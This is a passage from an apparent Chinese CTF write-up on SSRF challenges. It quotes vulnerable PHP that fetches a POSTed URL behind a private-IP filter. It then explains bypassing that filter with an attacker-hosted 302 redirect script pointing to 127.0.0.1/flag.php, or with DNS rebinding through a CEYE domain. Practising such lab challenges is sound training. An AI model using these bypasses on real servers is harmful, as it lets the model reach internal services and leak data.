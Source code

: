 > ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if($x['scheme']==='http'||$x['scheme']==='https'){
> $ip = gethostbyname($x['host']);
> echo '</br>'.$ip.'</br>';
> if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
>     die('ip!');
> }
> 
> 
> echo file_get_contents($_POST['url']);
> }
> else{
>     die('scheme');
> }
> ?>
> ```
>
> - FILTER_FLAG_IPV4 – 要求值是合法的 IPv4 IP（比如 255.255.255.255）
> - FILTER_FLAG_IPV6 – 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
> - FILTER_FLAG_NO_PRIV_RANGE – 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
> - FILTER_FLAG_NO_RES_RANGE – 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

302跳转(其实354也可以用这个方法)

在自己服务器写个php文件，然后访问：http://xxx/xxx.php

```php
<?php
header("Location:http://127.0.0.1/flag.php"); 
```

或者是dns重绑定
原理：[浅谈DNS重绑定漏洞 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/89426041)

可以在[CEYE - Monitor service for security testing](http://ceye.io/)注册一个帐号
修改dns rebinding：加一个127.0.0.1
然后用给的域名就行：http://r.xxx/flag.php



## 358

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
>     echo file_get_contents($url);
> }
> ```
>
> 
